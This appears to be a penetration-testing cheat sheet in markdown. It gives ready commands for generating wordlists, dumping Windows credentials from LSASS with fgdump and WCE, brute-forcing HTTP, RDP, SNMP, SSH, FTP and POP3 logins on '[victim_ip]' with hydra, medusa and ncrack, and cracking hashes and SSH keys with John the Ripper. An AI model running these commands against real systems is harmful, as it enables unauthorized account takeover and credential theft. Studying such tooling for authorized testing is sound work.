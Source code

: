 - [Password_generator](#Password_generator)
  - [Crunch](#Crunch)
- [Windows](#Windows)
  - [pwdump](#pwdump)
  - [WCE](#WCE)
- [Password_cracking](#Cracking)
  - [HTTP](#HTTP)
  - [RDP](#RDP)
  - [SNMP](#SNMP)
  - [SSH](#SSH)
  - [FTP](#FTP)
  - [POP3](#POP3)
- [Password Hash](#Hash)
  - [Hash_identifier](#Hash_identifier)
  - [MD5](#MD5)
  - [SHA1](#SHA1)
  - [SHA256](#SHA256)
  - [SHA512](#SHA512)
- [Pass the hash](#Pass_the_hash)
- [SSH key cracking](#SSH_key_cracking)
  - [Cracking encrypted private key](#Cracking_encrypted_private_key)
    - [ssh2john](#ssh2john)
    - [john ](#john)
    - [tools](#tools)
 
## Password generato

### Crunch: 
  - is a wordlist generator where you can specify a standard character set or a character set you specify.

##### crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
##### crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
##### special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
------------------------------------------------------------------------------------------------------------------------
### Windows  

#### pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

### WCE
- WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***
------------------------------------------------------------------------------------------------------------------------

### Password Profiling

#### cewl
- cewl <victim_www_url> -d [num] -m [num] -w [file.txt]
------------------------------------------------------------------------------------------------------------------------  
  
### Cracking

#### HTTP
- medusa -h [url] -u [user_name] -p [password_file.txt] -M http
- hydra [target_url] -l [user_name] -P [password_file] https-post-form 
/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"

#### RDP B
- ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]

#### SNMP 
- hydra -P [password-file.txt] -v [victim_ip] snmp

#### SSH 
- hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh

#### FTP 
- hyrda -L [user_file] -p [password] [victim_ip] ftp

#### POP3 
- hyrda -L [user_file] -P [password_file.txt] [victim_ip] -s [victim_port] -t 50 -I pop3

##### Usefull flag
- -vV : verbose mode
- -e nsr : login as password or login as password in reversed order etc
- -t : threads
------------------------------------------------------------------------------------------------------------------------

### Hash 

#### Hash identifier
 - usage: hash-identifier
 
#### MD5
- john --format=raw-md5 --wordlist=rockyou.txt [hash.file]

#### SHA1
- john --format=raw-sha1 --wordlist=rockyou.txt [hash.file]

#### SHA256
- john --format=raw-sha256 --wordlist=rockyou.txt [hash.file]

#### SHA512
- john --format=raw-sha512 --wordlist=rockyou.txt [hash.file]
------------------------------------------------------------------------------------------------------------------------

### Pass the hash

# //TODO!
------------------------------------------------------------------------------------------------------------------------

# SSH_Key_cracking

## Cracking_encrypted_private_key

### ssh2john
```
ssh2john.py encrypted_private_key > private_key.john
```
### john
```
john private_key.john --wordlist=/usr/share/wordlists/rockyou.txt
```

### tools
- https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py
